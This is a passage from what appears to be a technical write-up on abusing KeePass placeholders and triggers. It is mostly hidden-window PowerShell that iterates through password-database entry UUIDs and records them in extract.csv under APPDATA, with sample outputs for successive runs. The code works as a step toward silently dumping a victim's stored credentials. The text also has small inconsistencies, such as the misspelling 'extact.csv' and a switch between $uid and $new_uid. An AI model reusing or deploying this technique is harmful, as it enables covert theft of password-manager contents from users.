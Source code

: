 We put the snippet in a placeholder (with aliases and variable renames to make the payload a bit shorter):

```
{CMD:/PowerShell.exe -C "$eus='';if (!(Test-Path $env:APPDATA'\extract.csv')){ni -itemType File -Path $env:APPDATA -Name 'extract.csv' | Out-Null;};foreach($line in gc $env:APPDATA'\extract.csv'){$eus+=' -'+$line.Split(',')[0];}echo $eus;"/M=C,W:0,O:1,WS=H/}
```

When successive lines will later be appended to `extract.csv`{: .filepath}, this placeholder should successively output:

```
# first execution
-48615B89725E4F4987C20B9F2CCF90EC

# second execution
-48615B89725E4F4987C20B9F2CCF90EC -9A870B21F03856429CBCE5AEFAA42FB7

# third execution
-48615B89725E4F4987C20B9F2CCF90EC -9A870B21F03856429CBCE5AEFAA42FB7 -8C18AB6D7C027741B617618992DD9AEA

# fourth loop..
```

Once the exclusion string is built, we use it inside a field reference to resolve the next UUID before appending it to `extact.csv`{: .filepath}:

```powershell
$new_uid='{REF:I@I:0{CMD:/PowerShell.exe -C "$eus='';if (!(Test-Path $env:APPDATA'\extract.csv')){ni -itemType File -Path $env:APPDATA -Name 'extract.csv' | Out-Null;};foreach($line in gc $env:APPDATA'\extract.csv'){$eus+=' -'+$line.Split(',')[0];}echo $eus;"/M=C,W:0,O:1,WS=H/}}';
if(!($uid.StartsWith('{REF'))){
	Add-Content -Path $env:APPDATA'\extract.csv' -Value $new_uid -NoNewline;
}
```

`$new_uid` value will be:

```
# first execution
{REF:I@I:0 -48615B89725E4F4987C20B9F2CCF90EC} == 9A870B21F03856429CBCE5AEFAA42FB7

# second execution
{REF:I@I:0 -48615B89725E4F4987C20B9F2CCF90EC -9A870B21F03856429CBCE5AEFAA42FB7} == 8C18AB6D7C027741B617618992DD9AEA

# third execution..
```

This code is meant to be executed inside a trigger condition, so it must be inserted in a placeholder first:

```
{CMD:&PowerShell.exe -C "$uid='{REF:I@I:0{CMD:/PowerShell.exe -C "$eus='';if (!(Test-Path $env:APPDATA'\extract.csv')){ni -itemType File -Path $env:APPDATA -Name 'extract.csv' | Out-Null;};foreach($line in gc $env:APPDATA'\extract.csv'){$eus+=' -'+$line.Split(',')[0];}echo $eus;"/M=C,W:0,O:1,WS=H/}}';echo $uid;if(!($uid.StartsWith('{REF'))){ac -Path $env:APPDATA'\extract.csv' -Value $uid -NoNewline;}"&M=C,W:0,O:1,WS=H&}
```

